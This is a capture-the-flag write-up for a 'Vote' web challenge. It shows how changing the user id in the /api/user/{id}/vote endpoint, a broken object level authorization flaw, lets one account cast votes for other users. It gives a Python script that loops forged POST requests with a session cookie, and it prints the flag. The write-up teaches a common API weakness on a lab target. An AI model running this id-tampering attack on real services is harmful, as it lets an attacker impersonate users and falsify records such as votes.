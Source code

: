 # Vote

## Challenge

* Upon opening the challenge link, you are given a siup/signin portal.
  [![Sign In Page](writeup-images/signin.png)]()
* After successfully signing in, you will be shown the following Vote Page:
  [![Vote Page](writeup-images/after-signin.png)]()
* You are allowed to cast only one vote. You can't change the vote after been casted.

Find the flag.

## Solution

**Observation**

* Upon successful authentication of a new participant, the vote status will always be the same. (`Abdullah: 9` and `Mahdmud: 1`)
* We got the last vote to cast. "Abdullah" wins the election irrespective of which person we vote.
* There's a hint: `Do the Impossible`

So, we need to somehow make "Mahmud" win the election.

The website doesn't have any other functionalities. Thus, our primary focus would be to inspect the frontend code. From the script portion of the `vote.html` we get the following:

```javascript
<script>
    const abdullahRow = document.getElementById('abdullah-row');
    const mahmudRow = document.getElementById('mahmud-row');
    const abdullahVotesSpan = document.getElementById('abdullah-votes');
    const mahmudVotesSpan = document.getElementById('mahmud-votes');

  // Function to handle signout
  async function signout() {
    try {
      const response = await fetch('/api/signout', {
        method: 'GET',
        headers: {
          'Content-Type': 'application/json',
          credentials: 'include', // Include session credentials for authenticated requests
        },
      });

      const data = await response.json();

      if (response.ok) {
        alert(data.message);
        window.location.href = '/signin.html'; // Redirect to the signin page after signout
      } else {
        alert(data.error || 'Error during signout');
      }
    } catch (error) {
      console.error('Error during signout:', error);
      alert('An unexpected error occurred during signout');
    }
  }

    // Function to make API requests
    async function makeRequest(url, method, data) {
      try {
        const response = await fetch(url, {
          method,
          headers: {
            'Content-Type': 'application/json',
            // Include session credentials for authenticated requests
            credentials: 'include',
          },
          body: JSON.stringify(data),
        });
        return response.json();
      } catch (error) {
        console.error('Error:', error);
      }
    }

    function displayResults(abdullahVotes, mahmudVotes, flag) {
    const resultMessage = document.getElementById('result-message');

    if (abdullahVotes > mahmudVotes) {
      resultMessage.textContent = "Abdullah Won! No Flag For You!";
    } else if (mahmudVotes > abdullahVotes) {
        resultMessage.textContent = "Mahmud Won!\nCongratulations!\n" + flag;
    } else {
      resultMessage.textContent = "It's a tie!";
    }
  }
    // Function to update vote counts and show/hide vote buttons
    async function getVoteCounts() {
      const response = await makeRequest('/api/votes', 'GET');
      if (response.ok) {
        const abdullahVotes = response.vote_status.filter(vote => vote === 'Abdullah').length;
        const mahmudVotes = response.vote_status.filter(vote => vote === 'Mahmud').length;

        abdullahVotesSpan.textContent = abdullahVotes;
        mahmudVotesSpan.textContent = mahmudVotes;

        if(response.vote_status[0] !== null) {
          document.getElementById('abdullah-btn').disabled = true;
          document.getElementById('mahmud-btn').disabled = true;
          displayResults(abdullahVotes, mahmudVotes, response.flag);
        }
        else {
            document.getElementById('result-message').textContent = "";
        }
      }
    }

    getVoteCounts();

    // Vote button click event for Abdullah
    document.getElementById('abdullah-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Abdullah' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });

    // Vote button click event for Mahmud
    document.getElementById('mahmud-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Mahmud' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });
</script>
```

After analyzing the code, the highlights are the 3 API calls that are being made:

* `/api/signout` - Sign Out
* `/api/votes` - Gets Vote Status (who got how many votes)
* `/api/user/1/vote` - Casts a vote

It's apparent that we will have to do something with the 3rd one (`/api/user/1/vote`) to make "Mahmud" win the election. Somehow use the API to make multiple votes for "Mahmud" so that his vote counts get greater than the vote count of "Abdullah".

Now, let's analyze this API (`/api/user/1/vote`) even more.

```javascript
    // Function to make API requests
    async function makeRequest(url, method, data) {
      try {
        const response = await fetch(url, {
          method,
          headers: {
            'Content-Type': 'application/json',
            // Include session credentials for authenticated requests
            credentials: 'include',
          },
          body: JSON.stringify(data),
        });
        return response.json();
      } catch (error) {
        console.error('Error:', error);
      }
    }

    // Vote button click event for Abdullah
    document.getElementById('abdullah-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Abdullah' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });

    // Vote button click event for Mahmud
    document.getElementById('mahmud-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Mahmud' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });
```

We understand the following:

* `/api/user/1/vote` the API path indicates that, this endpoint might be susceptible to a very famous API vulnerability called [BOLA](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/) (Broken Object Level Authorization). We can just change the user id from `1` to any other numbers and try to cast a vote on behalf of that user.
* `value: 'Mahmud'` or `value: 'Abdullah'` is sent in the request body to indicate who we are casting our vote to.

So, we need to do the following:

* Send request to: `/api/user/{id}/vote` (id from 1 to 10)
* Request Body: `{value: 'Mahmud'}`

That way we will be able to alter the already casted votes. And make the vote count of "Mahmud" greater than the vote count of "Abdullah". Basically, if the vote count of "Mahmud" reaches `6`, he should win the election as there are total `10` votes.

We can send those requests using various tools.

* [Postman](https://www.postman.com/)

  [![Postman Request Headers](writeup-images/postman1.png)]()
  [![Postman Request Body](writeup-images/postman2.png)]()
* [Burp Suite](https://portswigger.net/burp)

Or, we can just write a `python` script like **Azwad (winner of ductf-2023)**.

```python
import requests
import json

body = { 'value': 'Mahmud'}
headers = {
    'Cookie': 'connect.sid=s%3A3Sa0wLY2NbEABgajsS2sAoDDm3CmUiql.uPZenyg%2FD%2BOmZSY7JCfpA%2FrHpnogNPvAjw1Pc9KwbDw',
    'Content-Type': 'application/json'
}

for i in range(1, 8):
    url = 'https://vote.ductf.com/api/user/'+ str(i) + '/vote'
    response = requests.post(url, data=json.dumps(body), headers=headers)
    if response.status_code == 200:
        print('Request was successful.')
    else:
        print(f'Request failed with status code {response.status_code}.')

```

After that, reloading the Vote page will give us the flag as we've successfully did the impossible (making Mahmud won the election).

Our apporach was successful. The website was indeed vulnerable to [Broken Object Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/).

[![FLAG Obtained](writeup-images/flag.png)]()
Finally, we get the flag: `duCTF{80LA_1$_A$_DANG3R0U$_A$_380LA}`
